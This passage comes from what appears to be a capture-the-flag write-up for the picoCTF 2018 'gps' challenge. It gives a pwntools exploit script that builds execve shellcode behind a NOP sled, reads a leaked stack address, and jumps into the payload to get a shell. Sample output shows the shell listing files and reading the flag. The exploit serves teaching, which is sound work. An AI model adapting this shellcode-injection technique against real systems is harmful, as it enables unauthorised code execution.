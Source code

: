 ```python
sc += shellcraft.linux.syscall('SYS_execve', 'rdi', 'rsi', 'rdx')

print(enhex(asm(sc)))

payload = b'\x90'*1336 + asm(sc)

#s = process('./gps') # use this to test locally
s = remote("2018shell.picoctf.com", 29035)
s.recvuntil("Current position: 0x")
addr = u64(unhex(s.recvline(keepends=False).zfill(16)), endian='big')

print("Addr: " + hex(addr))

s.recvuntil("> ")
s.sendline(payload)

s.recvuntil("> ")

target = addr + 668 + 0x35;
print("Sending: " + hex(target))
s.sendline(hex(target))

s.interactive()
```

Which, when you use it, looks something like this (it will connect with the shell server by default):

```
$ python gps_exploit.py
48b801010101010101015048b82e63686f2e726901483104244889e76a01fe0c244889e64889f26a3b580f05
[+] Opening connection to 2018shell.picoctf.com on port 29035: Done
Addr: 0x7ffe36399834
Sending: 0x7ffe36399b05
[*] Switching to interactive mode
$ ls
flag.txt
gps
gps.c
xinet_startup.sh
$ cat flag.txt
picoCTF{===REDACTED===}
```
{:.contains-term}

Now that you've mastered executing shellcode, head back to the  [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.
